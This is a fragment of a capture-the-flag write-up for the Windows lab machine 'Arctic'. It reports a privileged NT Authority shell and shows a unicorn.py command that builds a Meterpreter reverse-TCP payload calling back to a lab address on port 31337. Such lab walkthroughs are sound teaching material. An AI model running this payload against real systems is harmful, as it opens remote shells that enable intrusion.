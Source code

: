 ![](/Windows/Windows-Easy/Arctic/Screenshots/ms075.png)

and you get the privillage shell witn `NT/Authority`

### Another way to get Shell

```sh
python unicorn.py windows/meterpreter/reverse_tcp 10.10.14.9 31337  
```

it generates two file and instruction on starting metasploit.

![](/Windows/Windows-Easy/Arctic/Screenshots/unicorn.png)
